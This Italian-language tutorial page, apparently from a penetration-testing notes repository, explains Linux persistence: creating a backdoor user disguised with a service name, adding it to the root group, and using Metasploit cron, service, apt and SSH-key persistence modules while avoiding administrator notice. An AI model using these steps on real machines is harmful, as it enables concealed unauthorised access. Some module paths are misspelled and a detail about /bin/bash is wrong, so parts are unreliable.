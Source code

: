 
# Persistenza in Linux
La persistenza in un sistema operativo consiste in una serie di tecniche atte ad automatizzare l'accesso ad una macchinia target da parte di un attaccante tramite uno script che viene eseguito ogni volta che la macchina é attiva, mantenendo la persistenza nel sistema da un attaccante anche se la macchina viene spenta o riavviata. <br>
Ovviamente, per avere una persistenza su un target, dobbiamo prima avere una sessione con permessi elevati. <br>
una tecnica puó essere quella di creare un utente backdoor in modo da poterci autenticare con quel determinato utente alla macchina target: 
```bash
useradd -m <protocollo> -s /bin/bash
<password>
<passwordAgain>
```
come portocollo possiamo ad esempio mettere `ftp` in modo da creare un utente con quel nome e non destare sospetti dato che se elenchiamo tutti gli utenti presenti nel file `/etc/passwd` saranno elencati anche gli utenti in base al protocollo in esecuzione sulla macchina. <br>
`/bin/bash` é la home directory per quell'utente. <br>

dopo aver creato un utente, usiamo un account root per poterlo assegnare al gruppo di utenti root
```bash
usermod -aG root <name>
groups <name>             # per confermare che l'utente creato fa parte del gruppo dei root
```
possiamo anche specificare un user ID
```bash
usermod -u 15 <name>
```

## Moduli di persistenza Linux
esistono anche dei moduli che automatizzano il processo di creazione di una persistenza su un sistema target
```bash
use exploit/linux/loca/apt_package_manager_persistence     # 
use exploit/linux/loca/cron_persistence                    # crea un cronjob che viene continuamente eseguito per potersi connettere a un multi/handler
use exploit/linux/loca/service_persistence                 #
use post/linux/menage/sshkey_persistance  #RACCOMANDATO    # imposta una coppia di chiavi privata e pubblica ssh e aggiunge le chiavi pubbliche nella directory home di tutti gli account nel sistema
set CREATESSHFOLDER true
```
i cronjobs per la persistenza vengono spesso identificati dagli amministratori di sistema quindi non é consigliato usarli per non destare sospetti. 
> per il modulo di persistenza con i cronjobs consiglio di impostare una porta diversa da quella usata per exploitare il target

dopo aver eseguito il modulo di persistenzaa con le ssh key, otterremo in un path un file che contiene una chiave ssh che possiamo usare per autenteicarci a qualisiasi utente presente nel sistema target tramite il nomale terminale linux (fuori da Metasploit). <br>
Creiamo un file contenente la chaive ssh e lo chaiamiamo `ssh_key` 
```bash
chmod 0400 ssh_key
ssh -i ssh_key <username>@<IP>
yes
```

---
